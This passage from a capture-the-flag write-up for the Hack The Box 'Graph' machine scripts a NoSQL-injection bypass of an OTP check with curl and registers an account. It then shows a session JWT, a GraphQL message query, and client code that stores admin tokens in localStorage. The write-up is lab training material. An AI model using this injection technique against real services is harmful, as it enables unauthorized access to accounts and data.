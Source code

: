 ```json
{"result":"Account Created Please Login!"}
```

The whole process is easily scripted:

```shell
curl -i -s -k -X $'POST' \
    -H $'Host: internal-api.graph.htb' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\"email\":\"apehex@graph.htb\"}' \
    $'http://internal-api.graph.htb/api/code' \
    --next -i -s -k -X $'POST' \
    -H $'Host: internal-api.graph.htb' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\"email\":\"apehex@graph.htb\",\"code\":{\"$ne\":\"1234\"}}' \
    $'http://internal-api.graph.htb/api/verify' \
    --next -i -s -k -X $'POST' \
    -H $'Host: internal-api.graph.htb' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\"email\":\"apehex@graph.htb\",\"password\":\"heyhey\",\"confirmPassword\":\"heyhey\",\"username\":\"apehex\"}' \
    $'http://internal-api.graph.htb/api/register'
```

## Exploring the dashboard

Upon connection a JWT cookie appears:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjYyOGI1MTM0ZjQ5ODFlMDQzNzIwMDVkNSIsImVtYWlsIjoiYXBlaGV4QGdyYXBoLmh0YiIsImlhdCI6MTY1MzI5NzUwMSwiZXhwIjoxNjUzMzgzOTAxfQ.bdH-hdSldmdH6B9I6vdsq6-yC1r8YIoCiSSMzEJyD3E
```

This allows to query messages:

```json
{"variables":{},"query":"{\n  Messages {\n    toUserName\n    fromUserName\n    text\n    to\n    from\n    __typename\n  }\n}"}
```

```json
{"data":{"Messages":[{"toUserName":"apehex","fromUserName":"Mark","text":"Hey, We just realized that this email is not listed in our employee list. Can you send any links or documents so we can verify them on our end? Thanks","to":"apehex@graph.htb","from":"mark@graph.htb","__typename":"Message"}]}}
```

There's a user "Mark" that reviewed our registration, so most likely a privileged user.

I noticed that the webapp is using the local storage:

```javascript
Login(n, r) {
    this.apollo.mutate({
        mutation: YL,
        variables: {
            email: n,
            password: r
        },
        errorPolicy: "all"
    }).subscribe(i=>{
        null === i.data && (this.errors = "Invalid Credentials"),
        i.data.login.username && (localStorage.setItem("username", i.data.login.username),
        localStorage.setItem("id", i.data.login.id),
        localStorage.setItem("email", i.data.login.email),
        localStorage.setItem("admin", i.data.login.admin),
        i.data.login.adminToken && localStorage.setItem("adminToken", i.data.login.adminToken),
        localStorage.setItem("firstname", i.data.login.firstname),
```

[author-profile]: https://app.hackthebox.com/users/172213
[disabled-dashboard]: images/disabled-dashboard.png
[hackerone-tiktok]: https://hackerone.com/reports/1062888
[internal-registration]: images/interal-registration.png*
[local-storage]: images/local-storage.png
[pat-ffmpeg]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/CVE%20Ffmpeg%20HLS
[registration-otp]: images/registration-otp.png
[share-localstorage]: https://stackoverflow.com/questions/4026479/use-localstorage-across-subdomains
[upload-form]: images/upload-form.png
[xss-blogpost]: https://xclow3n.github.io/bugBounty/myFirstBounty.html